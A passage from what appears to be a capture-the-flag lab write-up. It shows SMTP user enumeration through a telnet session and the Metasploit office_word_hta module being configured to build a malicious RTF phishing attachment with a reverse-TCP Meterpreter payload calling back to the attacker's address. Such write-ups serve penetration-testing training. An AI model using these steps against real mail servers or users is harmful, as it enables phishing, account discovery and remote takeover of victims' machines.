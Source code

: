 ```bash
Zip Compressed Size             : 385
Zip Uncompressed Size           : 1422
Zip File Name                   : [Content_Types].xml
Creator                         : nico@megabank.com
<SNIP>
```
{% endcode %}

### Phishing Attack

We got the email `nico@megabank.com`, so can now perform a **phishing attack** by:

1. Creating a malicious `rtf` file.
2. Sending an email to `nico` attaching the malicious file.

Before starting our attack, we should first confirm that the user actually exists on the server.

```bash
$ telnet 10.10.10.77 25
Trying 10.10.10.77...
Connected to 10.10.10.77.
Escape character is '^]'.
220 Mail Service ready
HELO test.com
250 Hello.
MAIL FROM: <x7331@test.com>
250 OK
RCPT TO: <randomUser@megabank.com>
550 Unknown user
RCPT TO: <nico@megabank.com>
250 OK
quit
221 goodbye
Connection closed by foreign host.
```

We can create a malicious RTF file using Metasploit's `office_word_hta` module.

{% code overflow="wrap" %}
```bash
$ msfconsole -q
msf6 > search office_word_hta

Matching Modules
================

   #  Name                                        Disclosure Date  Rank       Check  Description
   -  ----                                        ---------------  ----       -----  -----------
   0  exploit/windows/fileformat/office_word_hta  2017-04-14       excellent  No     Microsoft Office Word Malicious Hta Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/fileformat/office_word_hta

msf6 > use 0
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp

msf6 exploit(windows/fileformat/office_word_hta) > set lhost tun0
lhost => 10.10.14.25
msf6 exploit(windows/fileformat/office_word_hta) > set srvhost tun0
srvhost => 10.10.14.25
msf6 exploit(windows/fileformat/office_word_hta) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf6 exploit(windows/fileformat/office_word_hta) >
```